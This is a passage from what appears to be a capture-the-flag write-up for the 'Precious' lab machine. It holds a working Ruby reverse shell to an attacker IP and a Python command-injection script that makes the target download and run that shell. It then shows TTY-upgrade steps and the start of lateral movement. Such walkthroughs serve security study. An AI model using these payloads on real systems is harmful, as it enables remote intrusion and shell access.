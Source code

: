 ```ruby
    # syscall 63 = dup2 on 32-bit Linux
    # test with nc -lvp 1337 

    require 'socket'

    s = Socket.new 2,1
    s.connect Socket.sockaddr_in 1234, '10.10.16.2'

    [0,1,2].each { |fd| syscall 33, s.fileno, fd }
    exec '/bin/sh -i'
```
####
In the target machine:
####
```python
#!/usr/bib/python3

import requests

def main():
    url = 'http://precious.htb'
    param = 'url'
    command = 'http://%20`wget http://10.10.16.2:8000/revshell.rb -O /tmp/revshell.rb && ruby /tmp/revshell.rb`'

    response = requests.post(url=url, params={param: command})
    print(response.text)

if __name__ == '__main__':
    main()
```
####
| Wget param | Description |
| ----- | ----- |
| -O | Output file, especify the name and the path of that file |
####
This access is not adequate because it does not give us a fully interactive shell, so we will have to treat the *TTY* before proceeding with privilege escalation. This process is called: *TTY treatment*.
####
```ruby
1. script -c bash /dev/null
2. ctrl + z
3. stty raw -echo; fg
4. 	  reset xterm
5. export TERM=xterm
```
####
####
####
## Lateral movement
### Bundle:
At the moment to gain access in the target machine, listing the content of the `/home` directory, we ar able to see that our user haven't the **user flag**. Furthermore, must exist other user, effectively doing the next: `ls /home` we can see that exist the `henry` user. So is necessary to get the password of that user and make *Lateral movement*. When we listing the hide content in the `~` of the **henry** user a `.bundle` directory exist.
####
That directory is uncommon, we need to check the content of that directory, this have a **config** file, this file have the next information:
####
